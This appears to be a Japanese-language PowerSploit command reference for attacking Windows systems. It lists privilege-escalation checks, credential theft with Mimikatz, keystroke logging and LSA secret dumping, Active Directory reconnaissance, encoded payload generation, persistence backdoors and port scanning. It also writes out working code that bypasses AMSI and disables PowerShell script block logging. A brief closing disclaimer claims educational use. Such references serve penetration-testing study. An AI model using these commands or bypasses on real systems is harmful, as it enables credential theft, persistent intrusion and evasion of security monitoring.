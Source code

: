 # PowerSploit Command Reference

## モジュールのインポート
```powershell
# モジュールのインポート
Import-Module PowerSploit

# 特定のモジュールのインポート
Import-Module .\PowerView.ps1
Import-Module .\PowerUp.ps1
Import-Module .\Invoke-Mimikatz.ps1
```

## 権限昇格
```powershell
# 権限昇格の脆弱性チェック
Invoke-AllChecks

# サービスの脆弱性チェック
Get-ServiceUnquoted
Get-ModifiableServiceFile
Get-ModifiableService

# 自動実行の脆弱性チェック
Get-RegistryAlwaysInstallElevated
Get-RegistryAutoLogon
```

## パスワード抽出
```powershell
# 資格情報の抽出
Get-GPPPassword
Get-UnattendedInstallFile
Get-Keystrokes

# メモリからの資格情報抽出
Invoke-Mimikatz
Invoke-MimikatzWDigestDowngrade
```

## 情報収集
```powershell
# システム情報収集
Get-ComputerDetails
Get-LSASecret
Get-RegistryMountedDrive

# ネットワーク情報収集
Get-NetDomain
Get-NetUser
Get-NetComputer
Get-NetGroup
Get-NetFileServer
```

## 実行バイパス
```powershell
# 実行ポリシーのバイパス
PowerShell.exe -NoP -NonI -W Hidden -Exec Bypass

# AMSIバイパス
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# スクリプトブロックログのバイパス
$settings = [Ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings','NonPublic,Static').GetValue($null)
$settings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
```

## ペイロード生成
```powershell
# PowerShellペイロードの生成
Out-EncodedCommand -ScriptBlock {commands}

# バイパスペイロードの生成
Out-CompressedDll -FilePath evil.dll
Out-EncryptedScript -ScriptPath script.ps1
```

## 持続性の確保
```powershell
# 永続化の設定
Install-ServiceBinary -Name "Service Name"
Add-ScrnSaveBackdoor
Add-Persistence

# スケジュールタスクの作成
Install-PowerShellTask
```

## ネットワーク操作
```powershell
# ポートスキャン
Invoke-PortScan -Hosts <target> -Ports "80,443,8080"

# パケットキャプチャ
Invoke-PoshPcap
Start-PacketCapture

# プロキシの設定
Set-ProxySettings
```

## 注意事項
- これらのツールは教育目的でのみ使用してください
- 実環境での使用は違法となる可能性があります
- アンチウイルスソフトに検知される可能性があります
- システムに重大な影響を与える可能性があるため、慎重に使用してください 